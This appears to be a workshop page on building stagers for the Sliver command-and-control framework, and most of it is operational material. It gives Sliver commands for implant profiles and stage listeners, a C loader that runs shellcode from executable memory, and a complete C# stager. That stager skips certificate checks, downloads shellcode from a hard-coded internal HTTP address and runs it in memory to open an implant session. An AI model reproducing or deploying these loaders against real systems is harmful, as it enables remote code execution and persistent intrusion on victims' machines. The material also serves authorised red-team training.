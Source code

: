 # Stagers

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new profile, replace the `%%LINUX_IPADDRESS%%` with the internal IP address of your Linux box:

```
[server] sliver > profiles new -b **%%LINUX_IPADDRESS%%** --format shellcode --skip-symbols --debug profile1

[*] Saved new implant profile profile1
```

The profile should now be available when listing them using `profiles` command.

```
[server] sliver > profiles

 Profile Name   Implant Type   Platform        Command & Control       Debug   Format       Obfuscation   Limitations 
============== ============== =============== ======================= ======= ============ ============= =============
 profile1       session        windows/amd64   [1] https://10.0.0.4   true    EXECUTABLE   disabled
```

A stage listener linked to the profile can now be created that will host your executable.

```
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7200 --profile profile1

[*] No builds found for profile profile1, generating a new one
[*] Job 1 (http) started
```

Once thats done the stage listener will host the second stage payload on the URL when specifying a file with extension `.woff` . For example, by reaching out to: [http://localhost:7200/test.woff](http://localhost:7200/test.woff) you will see that it downloads the second stage payload.

## Metasploit

You can generate msfvenom shellcode to connect back to our stage listener and retrieve the second stage payload, however you’ll need to include the `--prepend-size` argument to the stage listener as Metasploit payloads require the length to be prepended to the stage. You can either kill the previous stage listener using the `jobs -k` command or run the stage listener on a different port:

```html
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7202 --profile profile1 --prepend-size

[*] Sliver name for profile: IDEAL_THRONE
[*] Job 2 (http) started
```

Once you have the stage listener setup with prepend size, you can generate the stager shellcode:

```bash
[server] sliver > generate stager --lhost **%%LINUX_IPADDRESS%%** --lport 7202 --protocol http --save /tmp --format c

[*] Sliver implant stager saved to: /tmp/HOLLOW_CHINO
```

Create a new file on the Linux box with the following contents and replace the `%%STAGE_SHELLCODE%%` field with the shellcode previously created:

```bash
#include "windows.h"

int main()
{
        unsigned char buf[] = **%%STAGE_SHELLCODE%%** ;
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```

Finally compile the payload.

```bash
x86_64-w64-mingw32-gcc -o stage.exe stager.c
```

Once the executable is copied over to a windows host and run you should see a session connect back to your host.

## Custom stager

You can also use a custom stager that just retrieves sliver shellcode directly and loads it in memory similarly to the previous stager.

```bash
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
           IntPtr lpAddress,
           uint dwSize,
           AllocationType flAllocationType,
           MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

    static async Task Main(string[] args)
        {

            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.0.0.4:7200/whatever.woff");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(
                IntPtr.Zero,
                (uint)shellcode.Length,
                AllocationType.Commit | AllocationType.Reserve,
                MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(
                baseAddress,
                (uint)shellcode.Length,
                MemoryProtection.ExecuteRead,
                out _);

            // Execute shellcode
            var hThread = CreateThread(
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
            // Wait infinitely on this thread to stop the process exiting
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## References

- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
